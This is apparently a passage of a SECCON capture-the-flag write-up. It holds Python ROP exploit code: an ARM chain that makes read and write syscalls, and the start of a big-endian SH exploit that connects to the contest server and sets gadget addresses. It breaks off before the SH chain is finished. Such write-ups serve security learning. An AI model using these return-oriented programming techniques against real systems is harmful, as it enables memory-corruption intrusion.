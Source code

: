 ```python
rop += p(0x41414141) * 3
rop += p(ldmfd) # pc

rop += p(0x3) # fd
rop += p(0x1fff0000) # buffer
rop += p(1000) # count
rop += p(0x41414141) * 4 # r4 - r6, r11

rop += p(syscall_ret)

rop += p(pop_r4_r5_r6_pc)
rop += p(0x4) # r4 -> write
rop += p(0x41414141) * 2
rop += p(mov_r0_r4_pop_r4_r5_r6_pc) # pc

rop += p(0x41414141) * 3
rop += p(ldmfd) # pc

rop += p(0x1) # fd
rop += p(0x1fff0000) # buffer
rop += p(1000) # count
rop += p(0x41414141) * 4 # r4 - r6, r11

rop += p(syscall_ret)

f.write(rop + '\n')
print (f.read(1024))
```

### Exploitation 500 SH

Still an ROP but this time the structure is SH, which is big endian. But I
think it is simpler than the work on ARM.

```python
#!/usr/bin/python
import struct
import socket
import telnetlib

def readuntil(f, delim='\n'):
    data = ''
    while not data.endswith(delim):
        data += f.read(1)
    return data

def p(v):
    return struct.pack('>I', v)

def u(v):
    return struct.unpack('>I', v)[0]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('micro.pwn.seccon.jp', 10000))
f = s.makefile('rw', bufsize=0)

print readuntil(f, 'Input password: ')

flag_txt_addr = 0x4319
pop_r7_r6_r5_r4_pc_r8 = 0x424c
syscall_ret = 0x4028
data_addr = 0xffa000
printout = 0x42a0

```